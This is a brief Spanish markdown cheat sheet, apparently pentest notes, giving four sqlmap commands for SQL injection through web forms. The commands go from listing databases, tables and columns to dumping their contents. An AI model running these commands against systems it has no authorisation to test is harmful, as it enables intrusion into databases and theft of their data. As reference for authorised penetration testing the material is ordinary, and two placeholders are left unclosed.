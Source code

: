 # SQLi en Formulario
## Encontrar las bases de datos existentes
```bash
sqlmap -u <"URL"> --forms --dbs --batch
```

## Encontrar las tablas de una base de datos existente
```bash
sqlmap -u <"URL"> --forms -D <"Nombre de la base de datos"> --tables --batch
```

## Encontrar las columnas de una tabla de una base de datos existente
```bash
sqlmap -u <"URL"> --forms -D <"Nombre de la base de datos"> -T <"Nombre de la tabla" --columns --batch
```

## Mostrar los campos de las columnas de una tabla de una base de datos existente
```bash
sqlmap -u <"URL"> --forms -D <"Nombre de la base de datos"> -T <"Nombre de la tabla" -C <"Nombre de las columnas a mostar, separadas por coma"> --dump --batch
```